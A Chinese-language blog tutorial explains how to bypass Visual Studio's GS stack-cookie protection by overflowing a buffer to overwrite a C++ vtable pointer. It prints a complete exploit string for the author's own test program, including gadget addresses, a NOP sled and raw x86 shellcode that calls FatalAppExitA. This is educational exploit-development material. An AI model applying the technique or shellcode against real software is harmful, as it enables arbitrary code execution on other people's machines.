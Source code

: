 ```yaml
---
layout: post
title: 利用虚函数绕过GS保护
subtitle: Author：a-fickle
date: 2023-09-25 00:00:00 +0800
tag: [二进制,笔记]
cover-img: /assets/img/2023-09-25-利用虚函数绕过GS保护/cover.png
---
```


**摘要**：          
本篇文章详细讲解了如何利用C++中的虚函数绕过GS保护。           
      
           
**注意**：           
* 本文所介绍的所有技术均以建设安全、健康的网络环境为目的，本着探讨网络安全技术的初衷和目的，不得用于任何恶意或非法的用途。
* 本文作者不会宽恕或鼓励滥用本文讨论的渗透测试技术进行非法活动的行为，也不会对其承担任何责任。
              
         
           
## 一、GS保护：     
**GS保护是在函数编译时对函数的栈保护的一种技术。**  
  
GS保护在函数开始时在栈帧的底部（前栈帧的ebp上方）插入cookie xor ebp的值，并在函数返回前用xor运算恢复cookie的值，比对cookie的值是否改变，从而实现对栈的保护，避免了栈溢出攻击。  
```c++
mov     eax, ___security_cookie
xor     eax, ebp
mov     [ebp+var_4], eax

...
...

mov     ecx, [ebp+var_4]
xor     ecx, ebp              ; StackCookie
call    @__security_check_cookie@4 ; __security_check_cookie(x)
```
   
栈帧情况如下图所示：  
![栈帧示意图](/assets/img/2023-09-25-利用虚函数绕过GS保护/1-1.png){: .mx-auto.d-block :}    

\
**GS保护的漏洞**  
* GS在函数返回时才去检测栈是否溢出，我们可以在检测之前控制EIP，所以攻击C++的虚函数的方法和攻击异常处理的方法GS是不能防御的；
* 因为只对栈保护，然而堆溢出GS是不能保护的；
* GS只保护带有4字节以上缓冲区的函数，但是缓冲区<=4字节的很不常见。
    
\
**在VS中开启GS保护（本次工程配置）**  
1. 开启GS保护，如下图：  
![开启GS保护选项](/assets/img/2023-09-25-利用虚函数绕过GS保护/1-2.png){: .mx-auto.d-block :}
2. 其他配置如下：  
![其他配置](/assets/img/2023-09-25-利用虚函数绕过GS保护/1-3.png){: .mx-auto.d-block :}  
![其他配置](/assets/img/2023-09-25-利用虚函数绕过GS保护/1-4.png){: .mx-auto.d-block :}


   
## 二、虚函数：  
### 1. 虚函数表：（以下简称虚表）  
虚表中存放指向虚函数的指针。  
一个虚表中可以存放多个虚函数的起始地址。
### 2. 虚函数：
函数在调用虚表后，通过虚函数表找到对应的虚函数进行调用。
### 3. 调用约定：  
* 虚函数调用约定：_thiscall   
* 参数调用顺序：右->左  
* 传递参数方式：利用ECX寄存器(this)   
* 恢复栈平衡：子函数  

调用虚函数的汇编代码如下：  
```c++
mov     edx, [ebp+this]     //将虚表地址放入edx
mov     eax, [edx]          //将虚表地址放入eax
mov     ecx, [ebp+this]     //通过ecx传递虚表地址参数
mov     edx, [eax+10h]      //将虚表中的虚函数地址放入edx
call    edx                 //调用虚函数
```
  
### 4. VS调试：  
如下图：  
![调试虚函数](/assets/img/2023-09-25-利用虚函数绕过GS保护/2-1.png){: .mx-auto.d-block :}    


## 三、绕过GS保护：
### 计算字符串长度与操作逻辑：
1. 对程序进行调试（ollydbg），进入受到GS保护的函数中（main调用的第二个函数）。  
2. 如下图是mian函数的栈帧：  
    ![main函数栈帧](/assets/img/2023-09-25-利用虚函数绕过GS保护/3-1.png){: .mx-auto.d-block :}  
    栈帧布局如下：  
    41421146--->返回地址  
    41439898--->字符串参数起始地址  
    41439998--->虚表地址  
    0019FF70--->前栈帧ebp  
  
3. 思路：  
    **在函数检查cookie之前，字符串溢出--->覆盖或改变虚表地址为可控地址（地址在shellcode字符串空间中）--->在假的虚函数地址处放入pop pop retn指令地址字符串--->在shellcode开始处放入jump esp指令地址字符串--->跳转回shellcode字符串空间，执行shellcode**  
  
4. 三次跳转：
   * 从假的虚表地址跳转到假的虚函数（pop pop retn）
   * retn跳转到jump esp
   * jump esp跳转回shellcode字符串空间，即函数栈帧  
  
5. 计算shellcode长度：  
   栈顶到虚表地址之前（不含虚表地址，strcpy字符串结尾'\00'自动补齐，实现虚表地址末尾覆盖，结果为41439900）

  
**一些问题**：
```
1. 虚函数要在检查cookie之前调用，否则无法绕过GS保护的检查；
2. 虚表中可能有多个虚函数，因此修改虚表地址后，pop pop retn指令要放在对应调用的虚函数位置，而不一定是虚表的起始地址；
3. 如果只覆盖到虚表地址，则只能将虚表地址后两位改为\00（00会导致字符串截断）；
4. 也可以直接覆盖到虚表地址之后，破坏整个main函数栈帧，这样做可以随意修改虚表地址，而不仅仅是只改后两位；
5. 为什么跳转时写pop pop retn地址，而不是直接写栈顶地址：栈顶地址0019FE28使用不同电脑编译运行会有不同，但内存地址41439900是在编译时决定的，只要编译好了可以通用；
6. 为什么写jump esp，而不是直接jump到一个绝对地址执行shellcode：jump esp是跳转到栈顶，利用的是相对地址，通用性更强，使用绝对地址当编译环境更换时可能失效。
```

### 构造shellcode
结果代码如下：  
```c++
test.gs_overflow(
        "\x27\x11\x42\x41"
        //41421127--->jump esp
		"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
		"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
		"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
		"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
		"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
		"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
		"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
		"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x99\x15\x42\x41"				
        //41421599--->pop pop retn(59 5D C3)
		"\x90\x90\x31\xd2\xb2\x30\x64\x8b\x12\x8b\x52\x0c\x8b\x52\x1c\x8b\x42"
		"\x08\x8b\x72\x20\x8b\x12\x80\x7e\x0c\x33\x75\xf2\x89\xc7\x03"
		"\x78\x3c\x8b\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x31\xed\x8b"
		"\x34\xaf\x01\xc6\x45\x81\x3e\x46\x61\x74\x61\x75\xf2\x81\x7e"
		"\x08\x45\x78\x69\x74\x75\xe9\x8b\x7a\x24\x01\xc7\x66\x8b\x2c"
		"\x6f\x8b\x7a\x1c\x01\xc7\x8b\x7c\xaf\xfc\x01\xc7\x68\x79\x74"
		"\x65\x01\x68\x6b\x65\x6e\x42\x68\x20\x42\x72\x6f\x89\xe1\xfe"
		"\x49\x0b\x31\xc0\x51\x50\xff\xd7"
		"\x90\x90\x90\x90\x90\x90\x90\x90\x90"
		// 15*15+4+8+11 = 248
	);
```

其中，jump esp的机器码为FF E4，在IDA中查找到地址为41421127；  
pop pop retn机器码为59 5D C3，在IDA中查找到地址为41421599。  
（指令地址按“U”展开，按“C”收缩）  


### 运行结果：
**直接运行：**  
![弹窗结果](/assets/img/2023-09-25-利用虚函数绕过GS保护/3-2.png){: .mx-auto.d-block :}  
**调试结果：**  
![弹窗结果](/assets/img/2023-09-25-利用虚函数绕过GS保护/3-3.png){: .mx-auto.d-block :}  
![弹窗结果](/assets/img/2023-09-25-利用虚函数绕过GS保护/3-4.png){: .mx-auto.d-block :}  
![弹窗结果](/assets/img/2023-09-25-利用虚函数绕过GS保护/3-5.png){: .mx-auto.d-block :}  
![弹窗结果](/assets/img/2023-09-25-利用虚函数绕过GS保护/3-6.png){: .mx-auto.d-block :}  
![弹窗结果](/assets/img/2023-09-25-利用虚函数绕过GS保护/3-7.png){: .mx-auto.d-block :}  











